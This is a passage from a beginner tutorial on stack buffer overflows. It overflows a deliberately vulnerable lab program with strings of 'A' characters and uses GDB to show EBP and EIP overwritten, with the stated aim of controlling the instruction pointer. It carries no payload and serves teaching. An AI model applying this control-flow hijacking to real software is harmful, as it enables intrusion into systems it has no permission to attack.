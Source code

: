 not have access to.

**
  
./vuln AAAAAAAAAAAAAAAA
  
sent to buffer : AAAAAAAAAAAAAAAA
  
Segmentation fault (core dumped)
  
** 
  
We just overflowed the the buffer with 16 “A”&#8217;s. Lets take a look in GDB.
  
**
  
gdb -c core ./vuln**

**Core was generated by \`./vuln AAAAAAAAAAAAAAAA&#8217;.
  
Program terminated with signal 11, Segmentation fault.
  
#0 0xa7004141 in ?? ()
  
(gdb) info register $ebp
  
ebp 0x41414141 0x41414141
  
(gdb) i r $eip
  
eip 0xa7004141 0xa7004141
  
(gdb)
  
** 

As you can see we overwrote ebp(Extended Base Pointer) with 0x41414141 which is
  
“AAAA” but we did not fully overwrite eip(Extended Instruction Pointer).
  
We want to control eip so we can control the flow of the program.
  
So lets try it again with some more “A”&#8217;s.

Note: some versions of gcc will actually allocate more memory for the buffer ,
  
so you may need more to fill. This is just in my case.

We will do this using perl.
  
**
  
./vuln \`perl -e &#8216;print &#8220;A&#8221; x 20&#8217;\`
  
Now look at $ebp and $eip in GDB. We have successfully overwritten both with “A”&#8217;s.
  
(gdb) i r $eip
  
eip 0x41414141 0x41414141
  
(gdb) i r $ebp
  
ebp 0x41414141 0x41414141
  
(gdb)q
  